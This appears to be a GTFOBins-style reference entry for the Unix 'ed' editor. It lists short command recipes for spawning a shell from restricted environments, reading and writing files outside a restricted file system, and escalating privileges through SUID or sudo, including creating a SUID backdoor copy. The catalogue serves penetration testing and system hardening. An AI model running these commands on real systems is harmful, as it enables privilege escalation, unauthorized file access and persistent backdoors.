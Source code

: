 # GTFOBin: ed

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
ed
!/bin/sh
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
ed file_to_write
a
DATA
.
w
q
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
ed file_to_read
,p
q
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which ed) .

./ed file_to_read
,p
q
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo ed
!/bin/sh
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which ed) .

./ed
!/bin/sh
```